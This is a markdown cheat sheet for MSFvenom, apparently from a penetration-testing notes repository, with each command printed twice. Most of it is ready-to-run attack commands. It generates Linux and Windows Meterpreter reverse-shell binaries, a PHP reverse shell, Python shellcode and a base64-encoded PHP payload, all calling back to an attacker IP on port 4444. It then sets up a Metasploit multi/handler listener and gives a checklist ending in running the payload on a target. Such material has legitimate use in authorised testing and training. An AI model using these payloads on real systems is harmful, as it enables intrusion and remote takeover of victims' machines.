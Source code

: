    
# 🐍 MSFvenom Cheat Notes

## 📌 What is MSFvenom?

- Replaces old `msfpayload` + `msfencode`.
    
- Used to **generate payloads** for exploitation.
    
- Supports many **formats** (exe, elf, php, asp, war, etc.) & **targets** (Windows, Linux, Android, iOS).
    

---

## 🔍 Discover payloads

List all available payloads:

msfvenom -l payloads

```
msfvenom -l payloads
```

---

## 🖨️ Output formats

List supported output formats:

msfvenom --list formats

```
msfvenom --list formats
```

Examples:

- `-f exe` → Windows executable
    
- `-f elf` → Linux binary
    
- `-f raw` → raw shellcode
    
- `-f python` → embed in script
    
- `-f php` → PHP webshell
    

---

## 🔐 Encoders

Used to **encode payloads** (e.g., avoid bad chars), not guaranteed to bypass AV.  
List encoders:

msfvenom -l encoders

```
msfvenom -l encoders
```

Use encoder:

-e x86/shikata_ga_nai -i 5

```
-e x86/shikata_ga_nai -i 5
```

(encode 5 times)

---

## 🚀 Examples

### Linux reverse shell ELF

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### Windows reverse Meterpreter EXE

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```

### PHP reverse shell

msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php
# Edit: add <?php at start and ?> at end

```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php
# Edit: add <?php at start and ?> at end
```

### Python shellcode

msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python
```

### Encode example (Base64 for PHP)

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw -e php/base64

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw -e php/base64
```

---

## 🎣 Setting up the handler

Use multi/handler to catch the shell.

msfconsole
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.10.10
set LPORT 4444
run

```
msfconsole
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.10.10
set LPORT 4444
run
```

✅ Works for all payloads (Windows, Linux, etc.), just change `payload`.

---

## 📝 Quick checklist for MSFvenom

✅ Choose payload for target system (check with `msfvenom -l payloads`).  
✅ Set `LHOST` = your IP, `LPORT` = your listening port.  
✅ Decide on output format (`-f`).  
✅ (Optional) encode with `-e encoder -i n`.  
✅ Save payload to file.  
✅ Set up `exploit/multi/handler` in Metasploit.  
✅ Run payload on target, wait for reverse connection.

---

## 💡 Tips

- Always check your IP (`ip a`) and firewall rules.
    
- If not connecting, verify:
    
    - Target can reach your LHOST IP + port is open.
        
    - Correct payload architecture (x86 vs x64).
        
- Use `netcat` to test connectivity before trying payload.
    

---